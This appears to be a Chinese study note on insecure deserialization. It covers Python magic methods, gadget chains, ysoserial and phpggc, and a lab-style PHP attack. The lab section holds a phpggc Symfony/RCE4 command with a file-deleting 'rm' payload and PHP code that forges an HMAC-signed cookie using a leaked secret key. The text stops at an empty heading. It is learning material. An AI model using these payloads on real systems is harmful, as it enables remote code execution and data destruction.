 Java有类似构造函数，析构函数的概念，此外readObject有类似wake_up 的概念

**Python魔术方法**

| 魔术方法           | 作用                                                         |
| ------------------ | ------------------------------------------------------------ |
| `__reduce__`       | 将对象转换为可序列化的表示形式，并在反序列化时使用该表示形式来重新构造原始对象。攻击者可以使用此方法来执行任意代码。在反序列化或是序列化时调用，会返回一个元组，内有两个参数，第一个是执行的函数，第二个是执行的参数 |
| `__reduce_ex__`    | 类似于 `__reduce__`，但允许指定协议版本。这个方法也可能会被攻击者利用来执行任意代码。 |
| `__setstate__`     | 与 `__reduce__` 结合使用，用于在反序列化时将状态信息加载回对象中。攻击者可以使用此方法来执行任意代码。 |
| `__getattr__`      | 在访问对象属性时调用，如果属性不存在，则可能会返回攻击者指定的值。攻击者可以使用这个方法来执行任意代码或者访问本不应该访问的属性。 |
| `__getattribute__` | 在访问对象属性时调用，无论属性是否存在，都会被调用。攻击者可以使用这个方法来执行任意代码或者访问本不应该访问的属性。 |
| `__getitem__`      | 在访问对象的索引时调用，可能会被攻击者用来执行任意代码或者访问本不应该访问的索引。 |
| `__init__`         | 在创建对象时调用，攻击者可以使用这个方法来执行任意代码。     |
| `__new__`          | 在创建对象时调用，攻击者可以使用这个方法来执行任意代码或者返回攻击者控制的对象实例。 |

**Gadget chains 工具链**

将各个类的特性组合起来，以达到命令执行或是文件读写的效果，这些类的调用顺序，称为工具链

如果能得到目标网站的源码，或是知道网站所依赖的语言，基本的类库或是插件，那么可以通过审计源码或是利用基本类库已有的工具链来发起反序列化攻击，如命令执行，文件写入

工具：

java基本类库，spring框架----- ysoserial

PHP某某插件 ----------------------phpggc



**攻击方式**

1. PHP通用反序列化

（没做出来，，不知道什么原因，明明都按照教程走了，生成的cookie和原来的一样，但是拿来生成远程执行漏洞就不行，所以密钥没错，错误点只可能是base64编码，也就是工具生成的base64编码有问题，但我又是直接从网站那里复制粘贴的方法。。）

```php

./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64


<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;



```

2. PHP自定义构造反序列化工具链 
